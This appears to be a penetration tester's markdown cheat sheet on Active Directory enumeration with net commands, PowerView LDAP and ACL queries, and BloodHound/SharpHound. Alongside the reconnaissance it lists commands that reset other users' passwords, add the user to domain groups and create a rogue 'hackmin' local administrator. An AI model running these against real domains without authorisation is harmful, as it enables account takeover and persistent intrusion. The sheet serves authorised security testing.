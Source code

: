 # AD Enumeration

## Enum in CMD

use net to enumerate eg. users, groups and so on:
```
net user ${user} /domain
```

```
net user /domain
```

```
net groups /domain
```
or the password policy for the domain: `net accounts /domain`

Add yourself to a group with:
```
net group "${GROUP}" ${USER} /add /domain
```

Change password of `$USER`:
```
net user ${USER} Password123! /domain
```

```
net user /add hackmin Password123
```

```
net localgroup administrators hackmin /add
```



Has to be done from a domain-joined machine though, and it does not necessarily show the full output.


Enumerating SMB shares from the DC can be done with:

```
net view \\dc01 /all
```

## Enum in Powershell

Remember to use tools such as crackmapexec to check if a given user's credentials can be used for smb/rdp access to different machines!

### Manual Powershell enum

See [AD-Querier.ps1](./../../../payloads-n-scripts/scripts/AD-Querier.ps1).
When this script is imported, it can be used to make queries of the form:

```powershell
$user = LDAPSearch -Query "(&(objectCategory=user)(cn=*${USER_NAME}*))"
```
or
```powershell
$group = LDAPSearch -Query "(&(objectCategory=group)(cn=*${GROUP_NAME}*))"
```
```powershell
$group = LDAPSearch -Query "(objectCategory=computers)"
```

````powershell
$group = LDAPSearch -Query "(distinguishedname=${DISTINGUISHED_NAME_OF_OBJECT})"
`````


Manual lookup of hostname with:

```
Resolve-DnsName -Name ${IP}
```

### Automation tools

#### RSAT (Requires local admin)

AD-RSAT tooling gives us a lot of options.
Install it by running:

```
Install-WindowsFeature -Name "RSAT-AD-PowerShell" -IncludeAllSubFeature
```

from an admin powershell.

Similar to the `net` tool, powershell has cmdlets like `GetADUser`, `Get-ADGroup` or more generically, `GetAD-Object` 
A good flag to use is `-Properties` with these, which takes a comma-separated list, or wildcards `*`


#### Enum and much else: PowerSploit

[PowerView](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)

Examples of commands:

* `Get-NetUser ${USER_NAME}` (can be used with the flag -SPN to find service principals (service accounts)).
* `Get-NetGroup ${GROUP}`
* `Get-NetComputer`
* `Get-NetComputer | Select name,operatingsystem,operatingsystemversion`
* `Find-LocalAdminAccess` (Finds computers in the domain in which current user is local admin).
* `Get-NetSession -ComputerName ${COMPUTER_NAME} -Verbose` (`-Verbose` to let us know if we simply don't have privileges to make the call).

TL;DR regarding finding active sessions for users: `Get-NetSession` will not work by default on Windows 11.
If that is the case, it may be worth trying the `PSLoggedOn`-tool for this purpose:
```
PSLoggedOn.exe \\${COMPUTER_NAME}
```
Just keep in mind that a blank output here can also just mean that the pre-reqs for the tool are simply not met, as it uses Remote Registry,
which has been turned off by default since Windows 8.

##### ACLs and ACE Querying with PowerView

Interesting Acces Control Entries to look for:
```
GenericAll: Full permissions on object
GenericWrite: Edit certain attributes on the object
WriteOwner: Change ownership of the object
WriteDACL: Edit ACE's applied to object
AllExtendedRights: Change password, reset password, etc.
ForceChangePassword: Password change for object
Self (Self-Membership): Add ourselves to for example a group
```

We can do searches such as

```
Get-ObjectAcl -Identity "${GROUP}" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier | ForEach-Object -Process {Convert-SidToName $_.SecurityIdentifier}
```
(Requires specific version of PowerView.ps1).

This gets everyone with the `GenericAll` permission on the group `$GROUP`.



## Bloodhound

[Bloodhound](https://github.com/BloodHoundAD/BloodHound) with Sharphound can also be used for a graph overview of the domain.
It has the drawback of being quite noisy though.


Transfer SharpHound.ps1 to the target, import it and run:

```
Invoke-BloodHound -CollectionMethod All -OutputDirectory . -OutputPrefix "$DOMAIN_NAME"
```

Take the resulting zip and dump it into bloodhound.
To run bloodhound do: 

```
sudo neo4j start
```
and in another terminal:

```
bloodhound --no-sandbox
```

### Useful Bloodhound Raw Queries

```
MATCH (m:Computer) RETURN m
```
```
MATCH (m:User) RETURN m
```
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```



